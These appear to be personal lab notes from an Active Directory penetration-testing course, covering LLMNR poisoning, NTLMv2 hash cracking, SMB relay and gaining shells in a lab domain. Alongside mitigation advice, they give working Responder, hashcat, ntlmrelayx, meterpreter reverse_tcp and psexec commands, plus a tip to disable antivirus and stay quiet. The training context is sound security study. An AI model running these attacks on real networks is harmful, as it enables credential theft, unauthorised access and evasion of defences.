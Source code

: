 3. Attacking AD: Initial Attack Vectors

## LLMNR POISONING
### Link Local Multicast Name Resolution
(like DNS kindof)

From impacket, run **responder**
``` 
python /usr/share/responder/Responder.py -I eth0 -rdwv
```
> v for verbose

To capture the hashes, while running responder, go to the Windows machine and from Quick Access search and type the Linux IP 
e.g. 
`\\10.10.10.7`

That triggers a result on responder, including the `NTLMv2-SSP Hash` (e.g. for fcastle::MARVEL)

Can then provide the hash to **hashcat** to get the password 

> Better to run hashcat on our actual machine instead of the virtual machine, for more computing power

Enter the hashes into a file (one per line)
E.g.
```
gedit ntlmhash.txt
```
Enter:
```
fcastle::MARVEL:....hash...
```

Run 
```
hashcat --help | grep NTLM
	5500 | NetNTLMv1 / NetNTLMv1+ESS	| Network Protocols
	5600 | NetNTLMv2					| Network Protocols
	1000 | NTLM							| Operating System
```

We find out we need to use module 5600 as the hash we captured was NTLMv2
Run hashcat:

```
hashcat -m 5600 ntlmhash.txt /usr/share/wordlists/rockyou.txt --force
```

If we had run hashcat on Windows:
```
cd c:\users\alexia\desktop\hashcat-4.2.1
hashcat64.exe -m 5600 hashes4.txt rockyou.txt -O
```
- `-O` for optimise

Try to also create custom wordlists based on the season, year etc.

## LLMNR Poisoning Mitigation

**LLMNR**: Link-Local Multicast Resolution
is a protocol based on the DNS packet format that allows both IPv4 and IPv6 hosts to perform name resolution for hosts on the same local link

If LLMNR fails, it goes to NBT-NS and vice versa. Hence, need to disable both.
- Disable LLMNR and NBT-NS
	- LLMNR: Local Computer Policy > Computer Configuration > Administrative Templates > Network > Group Policy Editor > DNS client > select "Turn OFF Multicast Name Resolution"
	- NBT-NS: Network Connections > Network Adapter Properties > TCP/IPv4 Properties > Advanced > WINS > "Disable NetBIOS over TCP/IP"

If no option to disable, best alternative mitigating action:
- Require Network Access Control (enable it)
	- i.e. cannot just plug into any port and join the network. Shut port down or don't let anyone who doesn't belong there
- Requirement of strong user passwords (complex and long)


***
## SMB Relay
**SMB** - Server Message Block
is a protocol for sharing files, printers, ports etc. b/w devices

> SMB typically runs on port 445

Instead of cracking hashes gathered by Repsonder, can relay them to specific machines and potentially gain access

Requirements:
- SMB signing must be disabled on the target 
- relayed user credentials must be admin on machine

SMB signing is a packet level protocol. If enabled, it will tell us the packet is not signed by the actual user, i.e. we won't be authenticated and the relay will not succeed

If SMB signing is disabled, it will not check for authentication

From W1, relay on W2
- we capture the credentials and hash from W1
- because frank castle is a local administrator for both machines, we can relay those credentials to W2 and gain access
- W2 must have SMB signing disabled for this attack to succeed

First, need to find out if SMB signing is disabled.
Can do with nessus, or other software or nmap (scan whole network)
```
sudo nmap --script=smb2-security=mode.nse -p445 10.10.10.0/24 
```

We find that the server 10.10.10.6 has `SMB enabled and required` (which is default for DC's / Servers) but both workstations (10.10.10.4 and 10.10.10.5) have `SMB enabled but not required` i.e. we can still attack them

add our targets to a targets.txt file (one IP per line)

Change responder configuration to SMB and HTTP to Off. We want to only listen for now and not respond.
```
gedit /etc/responder/Responder.conf
```

```
sudo /usr/share/responder/Responder.py -I eth0 -rwdv
```

now run
```
sudo ntlmrelayx.py -tf targets.txt -smb2support
```

If we get an error cause a port is being used can check. E.g. with SMB port:
```
sudo lsof -i :445
```

To kill that process:
```
sudo kill -9 <PID>
```

To start an interactive session run:
```
sudo ntlmrelayx.py -tf targets.txt -smb2support -i
```
this will give us access to the SMB process and we can access the SMB shell by listenting on the port that ntlmrelayx directs us to.
```
nc 127.0.0.1 11000
```
From there we get the SMB command shell. 
Type `help` to see the commands. 
Can type `shares` to see the different shares/folders we have access to 
Can use smb commands e.g. `use ADMIN$` or `use C$`
e.g. `use C$` gives us access to the C folder, `ls` to view the contents... etc.
Can also use other options with ntlmrelayx like `-c` to run commands, `-e` to execute something (like a shell) etc.


## SMB Relay Mitigation

### Enable SMB Signing on all devices
- Pro: completely stops the attack
- Con: can cause performance issues with file copies

### Disable NTLM authentication on network
- Pro: completely stops the attack
- Con: If Kerberos stops working, Windows defaults back to NTLM anyway

### Account tiering
e.g. a domain admin is restricted to log into admin accounts, servers, DC's and not user accounts
- Pro: Limits domain admins to specific tasks (e.g. only log onto servers with need for DA)
- Con: Enforcing policy may be difficult

### Local admin restriction
e.g. do not have local admin's
- Pro: can prevent a lot of lateral movement
- Con: potential increase in the amount of service desk tickets
***
## Gaining Shell Access

![e0bfe1e8b8ef8c1933afd9223de1c6a5.png](../../_resources/6003a23b2a984443bbd9abd80b89bf64.png)

Need to also set the right payload
```
> set payload windows/x64/meterpreter/reverse_tcp
> set lhost eth0
```

ran the same attack for 10.10.10.4 (and zpark, Password2) as we had issues with the fcastle machine

used metasploit but didn't work. Instead used
```
sudo psexec.py marvel.local/zpark:Password2@10.10.10.4
```
got system!

Can also try and run (more obscure, more quiet):
```
sudo smbexec.py marvel.local/zpark:Password2@10.10.10.4
sudo wmiexec.py marvel.local/zpark:Password2@10.10.10.4
```

psexec far noisier than psexec. Try to use others and see what AV is running to then find out how to disable it

Get in quietly first..


